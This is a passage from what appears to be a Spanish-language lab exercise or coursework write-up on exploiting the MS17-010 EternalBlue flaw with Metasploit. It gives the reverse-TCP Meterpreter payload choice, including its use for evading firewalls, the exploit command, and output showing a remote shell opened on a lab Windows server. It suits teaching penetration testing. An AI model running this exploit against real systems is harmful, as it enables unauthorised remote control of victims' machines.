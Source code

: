     - PAYLOAD: Se usa windows/x64/meterpreter/reverse_tcp porque:
        - Es compatible con sistemas x64
        - Proporciona una shell meterpreter más potente que una cmd básica
        - Establece una conexión TCP reversa, útil para evadir firewalls

### 2.4. Ejecución del Exploit (2 puntos)
- Ejecuta el exploit para obtener una conexión Meterpreter con el servidor. Si la explotación es exitosa, documenta qué mensaje o salida te confirma que la conexión ha sido establecida.

- **Tip:** Al ejecutar el exploit, Metasploit intentará establecer una sesión Meterpreter en la máquina víctima si el ataque es exitoso.
- **Tip adicional:** Documenta cualquier mensaje en la salida de Metasploit que indique éxito, como `Meterpreter session X` opened. Esto confirma la conexión.

    ```terminal
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
    ```    
    ![figura](/assets/images/EP/2.4.png)

    En la imagen hay varios indicadores clave que muestran que el ataque EternalBlue fue exitoso:

    - La confirmación inicial de vulnerabilidad:
    ```terminal
    10.0.2.4:445 - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
    ```
    - La ejecución exitosa del exploit:
    ```terminal
    10.0.2.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    ```
    - La creación de una sesión de Meterpreter:
    ```terminal
    Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.4:49645)
    ```
    - Los indicadores de WIN (victoria/éxito) en el banner ASCII:
    ```
    10.0.2.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=
    ```
    - La aparición del prompt `meterpreter >` al final, lo que indica que tenemos una shell de Meterpreter activa en el sistema objetivo, dándonos control sobre la máquina comprometida.
